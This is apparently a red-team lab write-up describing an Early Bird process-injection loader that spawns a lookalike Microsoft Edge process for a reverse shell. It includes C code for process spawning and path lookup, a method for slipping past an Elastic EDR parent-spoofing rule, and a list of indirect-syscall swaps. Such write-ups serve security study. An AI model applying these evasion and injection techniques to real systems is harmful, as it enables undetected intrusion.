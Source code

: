 ![](imgs/earlybird/EdgeCaseHeader.jpeg)

# Early Bird - Edge case

## Intro
In a recent red team lab - [Vulnlab](https://www.vulnlab.com/main/red-team-labs) - we had the challenge to establish initial access via phishing. Basically, after compromising an IT department email account, we had to send a phishing email targeting another account which was expecting to receive the "HR Tool". The target machine is running Elastic EDR agent and the goal was to evade detection and gain a foothold.

My initial thoughts were to create a program that uses of the Early Bird technique to spawn a new instance of MS Edge and inject a reverse shell shellcode. The reason to pick Edge as the target process is because security products can easily detect anomalous network connections, for example, it would be very suspicious if `Notepad.exe` process starts sending HTTP/S packets every 30s.

## The current directory issue
I wanted to spawn an instance of MS Edge as closer to the original as possible to avoid detection. Here is how a legitimate `msedge.exe` process looks like in Process Hacker:
![](imgs/earlybird/img01.png)

When using `CreateProcessA` API or even the low-level `NtCreateUserProcess` we can specify the parameters and attributes for the process, such as the "Image file name", "Command line", even spoof the parent process. However, the one that was challenging to get it right was the "Current directory" since it contains the path containing the version of Edge. If we don’t specify anything and pass the `NULL` value, it will be populated with the current directory where the program was initiated:
![](imgs/earlybird/img02.png)
*Note: I am also spoofing the parent process as you can see it is showing as child of `explorer.exe`.*

See below a snippet of the code for spawning `msedge.exe` without specifying the "Current directory":
```C
...<snip>...
if (!CreateProcessA(
		"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe",
		"\"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe\"",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT,
		NULL,
		NULL,   // Current directory value
		&SiEx.StartupInfo,
		&Pi)) {
		printf("[!] CreateProcessA failed with error : %d \n", GetLastError());
		return FALSE;
	}
...<snip>...
```

On the other hand, if we specify the wrong directory, it will fail and the program will likely crash.

## Fetching Edge version from the registry
To solve this issue we need to retrieve the Edge version installed in the target system, concatenate with the path `C:\Program Files (x86)\Microsoft\Edge\Application\` and pass as the value for the current directory when spawning an instance of `msedge.exe`.

There are a few ways to do that, I decided to fetch the registry.
![](imgs/earlybird/img03.png)
We can find the Edge version installed under `HKEY_CURRENT_USER\Software\Microsoft\Edge\BLBeacon` registry, in the `version` key.

Building a POC to retrieve Edge version from the registry:
```C
#include <stdio.h>
#include <windows.h>

BOOL ReadEdgeVersionFromRegistry(OUT LPCSTR* ppPath) {
	LSTATUS status = NULL;
	DWORD dwBytesRead = 0;
	PBYTE pBytes = NULL;

	// MS Edge install registry location: Software\\Microsoft\\Edge\\BLBeacon
	char edgeReg[] = { 'S', 'o', 'f', 't', 'w', 'a', 'r', 'e', '\\', 'M', 'i', 'c', 'r', 'o', 's', 'o', 'f', 't', '\\', 'E', 'd', 'g', 'e', '\\', 'B', 'L', 'B', 'e', 'a', 'c', 'o', 'n', '\0' };

	// Key in registry containing the MS Edge version
	char edgeVersion[] = { 'v', 'e', 'r', 's', 'i', 'o', 'n', '\0' };

	// Fetching the version's size
	status = RegGetValueA(HKEY_CURRENT_USER, edgeReg, edgeVersion, RRF_RT_ANY, NULL, NULL, &dwBytesRead);
	if (ERROR_SUCCESS != status) {
		printf("[!] RegGetValueA Failed With Error : %d\n", status);
		return FALSE;
	}

	// Allocating heap that will store the version that will be read
	pBytes = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBytesRead);
	if (pBytes == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d\n", GetLastError());
		return FALSE;
	}

	// Reading the version from "edgeReg" key, from value "edgeVersion"
	status = RegGetValueA(HKEY_CURRENT_USER, edgeReg, edgeVersion, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);
	if (ERROR_SUCCESS != status) {
		printf("[!] RegGetValueA Failed With Error : %d\n", status);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}
	printf("\t[i] Found Edge version: %s\n", pBytes);

	/* Concatenate the version with the base path C:\\Program Files(x86)\\Microsoft\\Edge\\Application\\ */
	char basePath[] = { 'C', ':', '\\', 'P', 'r', 'o', 'g', 'r', 'a', 'm', ' ', 'F', 'i', 'l', 'e', 's', ' ', '(', 'x', '8', '6', ')', '\\', 'M', 'i', 'c', 'r', 'o', 's', 'o', 'f', 't', '\\', 'E', 'd', 'g', 'e', '\\', 'A', 'p', 'p', 'l', 'i', 'c', 'a', 't', 'i', 'o', 'n', '\\', '\0' };
	size_t basePathLen = strlen(basePath);
	size_t versionLen = dwBytesRead - 1; // Exclude the null-terminator from the version length

	// Allocate memory for the complete path
	*ppPath = (LPCSTR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, basePathLen + versionLen + 1);
	if (*ppPath == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d\n", GetLastError());
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Copy the base path to ppPath
	if (strcpy_s((char*)*ppPath, basePathLen + versionLen + 1, basePath) != 0) {
		printf("[!] strcpy_s Failed\n");
		HeapFree(GetProcessHeap(), 0, *ppPath);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Concatenate the version at the end of ppPath
	if (strcat_s((char*)*ppPath, basePathLen + versionLen + 1, (const char*)pBytes) != 0) {
		printf("[!] strcat_s Failed\n");
		HeapFree(GetProcessHeap(), 0, *ppPath);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Print the full concatenated path
	printf("\t[i] Edge full Path: %s\n", *ppPath);

	// Free the version buffer
	HeapFree(GetProcessHeap(), 0, pBytes);

	return TRUE;
}

int main() {

    printf("[i] Looking for MS Edge version in the registry\n");
    LPCSTR pEdgePath = NULL;
    if (!ReadEdgeVersionFromRegistry(&pEdgePath)) {
        printf("[-] Error retrieving Microsoft Edge path\n");
        return -1;
    }

    return 0;
}
```

Compile and run the code above, we can verify that it is working:
![](imgs/earlybird/img04.png)

## Bypassing PPID spoofing rule
When I thought I was done, Elastic was detecting the parent process spoofing. Luckily, we can have  a look at Elastic detection [rules for PPID spoofing on Github](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/defense_evasion_parent_process_pid_spoofing.toml#L91). That is when I saw this on [line 91](https://github.com/elastic/protections-artifacts/blob/7cab0ce93881cef1b1073c3946aac790a284f554/behavior/rules/defense_evasion_parent_process_pid_spoofing.toml#L91):
![](imgs/earlybird/img05.png)

It seems that if `msedge.exe` has 2 or more arguments and parent is sihost.exe then we are good to go. I modified the "Command line" value and changed the parent process from `explorer.exe` to `sihost.exe`:
![](imgs/earlybird/img06.png)

Looks exactly what we need to get that initial foothold in the red team lab.

!!!  
The full code for the POC above can be found [on my Github repo here](https://github.com/caueb/EarlyBird-EdgeCase).   
!!!

## Final adjustments
For my final code I replaced most of the Windows API calls with indirect syscalls using [HellsHall](https://github.com/Maldev-Academy/HellHall). 

Here is a list of the APIs to replace from the POC:

POC WinAPI | Syscall {.compact}  
--- | ---
OpenProcessToken | NtOpenProcessToken
OpenProcess | NtOpenProcess
CreateProcessA | NtCreateUserProcess
VirtualAllocEx | NtAllocateVirtualMemory
WriteProcessMemory | NtWriteVirtualMemory
VirtualProtectEx | NtProtectVirtualMemory
QueueUserAPC | NtQueueApcThread
ResumeThread | NtResumeThread
CloseHandle | NtClose

After doing these modifications I successfully got my initial foothold and a reverse shell running under `msedge.exe`.